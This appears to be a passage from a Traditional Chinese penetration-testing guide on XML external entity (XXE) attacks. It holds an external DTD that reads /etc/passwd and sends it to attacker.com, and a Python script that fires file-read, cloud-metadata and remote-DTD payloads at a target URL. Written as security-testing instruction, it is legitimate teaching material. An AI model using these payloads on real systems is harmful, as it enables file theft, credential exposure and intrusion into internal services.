 ```xml
]>
```

**外部DTD檔案（evil.dtd）**：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;
```

**8.3.3 XXE自動化測試**：

```python
#!/usr/bin/env python3
"""
XXE自動化測試腳本
"""
import requests
import xml.etree.ElementTree as ET

def test_xxe(target_url, headers=None):
    """
    測試XXE漏洞
    """
    if headers is None:
        headers = {'Content-Type': 'application/xml'}
    
    # XXE測試負載
    payloads = [
        # 基本檔案讀取
        '''<?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
        <root>&xxe;</root>''',
        
        # Windows檔案
        '''<?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/windows/system32/drivers/etc/hosts">]>
        <root>&xxe;</root>''',
        
        # 內部網路掃描
        '''<?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/">]>
        <root>&xxe;</root>''',
        
        # 外部DTD
        '''<?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>
        <root>test</root>'''
    ]
    
    vulnerable = []
    
    for i, payload in enumerate(payloads):
        try:
            response = requests.post(target_url, data=payload, headers=headers, timeout=10)
            
            # 檢查是否成功讀取檔案
            if any(indicator in response.text for indicator in 
                   ['root:', 'localhost', 'meta-data', '<!DOCTYPE']):
                vulnerable.append(f"Payload {i+1}")
                print(f"[+] 可能的XXE漏洞 - Payload {i+1}")
                print(f"    回應長度: {len(response.text)}")
                print(f"    部分回應: {response.text[:200]}...")
```